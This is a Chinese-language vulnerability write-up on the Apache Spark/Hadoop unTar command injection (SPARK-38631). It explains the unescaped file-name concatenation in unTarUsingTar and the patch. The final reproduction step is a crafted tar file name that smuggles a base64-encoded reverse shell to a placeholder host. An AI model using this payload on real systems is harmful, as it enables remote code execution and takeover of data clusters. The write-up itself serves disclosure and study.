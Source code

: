 # Apache Spark unTarUsingTar 命令注入漏洞 SPARK-38631

## 漏洞描述

Apache Spark 是一种用于大数据工作负载的分布式开源处理系统。它使用内存中缓存和优化的查询执行方式，可针对任何规模的数据进行快速分析查询。它提供使用Java、Scala、Python 和 R 语言的开发 API，支持跨多个工作负载重用代码—批处理、交互式查询、实时分析、机器学习和图形处理等。当Spark任务的文件名可控时，`Utils.unpack`采用命令拼接的形式对tar文件进行解压，存在任意命令注入的风险。这是源于Hadoop中unTar函数存在问题，在其执行shell命令之前未正确转义文件名，直接拼接命令导致任意命令注入。

## 漏洞影响

```
Apache Spark 3.1.2, 3.2.1, 3.3.0
```

## 漏洞复现

查看官方的修复补丁

![](./images/202205251624131.png)

![](./images/202205251624468.png)

官方修复针对.tar后缀的压缩包调用了新增的unTarUsingJava函数来进行处理，我们下载存在漏洞的版本看一下漏洞位置

```
hadoop-common-2.7.4.jar!/org/apache/hadoop/fs/FileUtil.class
```

![](./images/202205251624145.png)

可以看到漏洞主要出现在 Linux对文件的解压处理中

```
public static void unTar(File inFile, File untarDir) throws IOException {
        if (!untarDir.mkdirs() && !untarDir.isDirectory()) {
            throw new IOException("Mkdirs failed to create " + untarDir);
        } else {
            boolean gzipped = inFile.toString().endsWith("gz");
            if (Shell.WINDOWS) {
                unTarUsingJava(inFile, untarDir, gzipped);
            } else {
                unTarUsingTar(inFile, untarDir, gzipped);
            }

        }
    }
```

这里我们控制压缩tar文件的文件名就可以进行命令注入

```
private static void unTarUsingTar(File inFile, File untarDir, boolean gzipped) throws IOException {
        StringBuffer untarCommand = new StringBuffer();
        if (gzipped) {
            untarCommand.append(" gzip -dc '");
            untarCommand.append(makeShellPath(inFile));
            untarCommand.append("' | (");
        }

        untarCommand.append("cd '");
        untarCommand.append(makeShellPath(untarDir));
        untarCommand.append("' ; ");
        untarCommand.append("tar -xf ");
        if (gzipped) {
            untarCommand.append(" -)");
        } else {
            untarCommand.append(makeShellPath(inFile));
        }

        String[] shellCmd = new String[]{"bash", "-c", untarCommand.toString()};
        ShellCommandExecutor shexec = new ShellCommandExecutor(shellCmd);
        shexec.execute();
        int exitcode = shexec.getExitCode();
        if (exitcode != 0) {
            throw new IOException("Error untarring file " + inFile + ". Tar process exited with exit code " + exitcode);
        }
    }
```

创建Tar文件, 在使用 addArchive执行解压就可以注入恶意命令

```
touch '1\|{echo,YmFzaCAtaSA+JiAvZGV2L3RjcC94eHgueHh4Lnh4eC54eHgvNjY2NiAwPiYx}|{base64,-d}|{bash,-i}\|1.tar'
```

![](./images/202205251625299.png)